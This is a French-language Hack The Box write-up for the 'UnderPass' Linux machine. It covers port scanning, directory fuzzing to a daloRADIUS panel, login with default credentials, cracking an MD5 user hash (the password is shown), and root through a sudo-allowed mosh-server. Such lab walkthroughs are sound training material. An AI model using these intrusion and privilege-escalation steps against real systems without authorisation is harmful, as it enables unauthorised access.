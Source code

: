 ```yaml
---
title: UnderPass - Linux Easy - HTB Writeup 
description:
slug: underpass-htb-writeup-linux-easy
date: 2025-05-10 00:00:00+0000
image: UnderPass.PNG
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Sudo Privilege escalation

---
```

## Résumé
User: Identifiants par défaut + réutilisation d'un mot de passe faible\
Root: Sudo Privilege escalation

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier qu'un service SSH et web sont exposés.
{{< highlight go "hl_lines=1 4 8" >}}
$ nmap -Pn -p- 10.10.11.48 -A -v

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
7294/tcp  filtered unknown
12945/tcp filtered unknown
37517/tcp filtered unknown
39220/tcp filtered unknown
44459/tcp filtered unknown
55246/tcp filtered unknown
55628/tcp filtered unknown
64827/tcp filtered unknown
{{< /highlight >}}

## Utilisateur
### Fuzzing
En utilisant ```ffuf``` pour effectuer du fuzzing de répertoires sur le port 80, on découvre le chemin ```/daloradius/app/operators```.\
En accédant à ce chemin, nous sommes redirigés vers une page de connexion liée à ```Daloradius```, une ["plateforme RADIUS web avancée destinée à la gestion de hotspots et de déploiements SP génériques".](https://github.com/lirantal/daloradius)
{{< highlight go "hl_lines=1 5 9" >}}
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/FUZZ
daloradius              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/daloradius/FUZZ
app                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.48/daloradius/app/FUZZ
operators               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 87ms]
<...>
{{< /highlight >}}
Chemin: http://10.10.11.48/daloradius/app/operators/login.php
![](Path.PNG)

### Identifiants par défaut
En utilisant les identifiants par défaut ```administrator:radius```, facilement trouvables sur internet, on accède à la page d'accueil de Daloradius.\
Depuis cette interface, nous pouvons accéder à la page ```users``` et utiliser hashcat pour trouver le mot de passe de ```svcMosh``` qui s'apparente à un hash MD5.
![](mng-list-all.PNG)
{{< highlight go "hl_lines=1 3 5" >}}
$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
<...>
412dd4759978acfcc81deab01b382403:underwaterfriends
<...>
{{< /highlight >}}

Grâce à ces identifiants, on accède au serveur en tant qu'utilisateur svcMosh.
{{< highlight go "hl_lines=1" >}}
$ ssh svcMosh@10.10.11.48
<...>
svcMosh@underpass:~$ pwd
/home/svcMosh
svcMosh@underpass:~$ ls
user.txt
{{< /highlight >}}

## Root
### Sudo Privilege escalation

L'utilisateur ```svcMosh``` est autorisé à éxécuté ```mosh-server``` via sudo, [un composant de Mosh,  shell distant conçu pour des sessions interactives similaires à SSH.](https://mosh.org/)\
Comme cette commande peut être exécutée via sudo, nous pouvons l’utiliser pour obtenir un shell avec les privilèges root.
{{< highlight go "hl_lines=1 7 9 13 15 17" >}}
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo /usr/bin/mosh-server
MOSH CONNECT 60002 zl0g6Tbx/KIgOR0jzdQ9wA
<...>

svcMosh@underpass:~$ MOSH_KEY=zl0g6Tbx/KIgOR0jzdQ9wA mosh-client 127.0.0.1 60002

root@underpass:~# pwd
/root
root@underpass:~# ls
root.txt
{{< /highlight >}}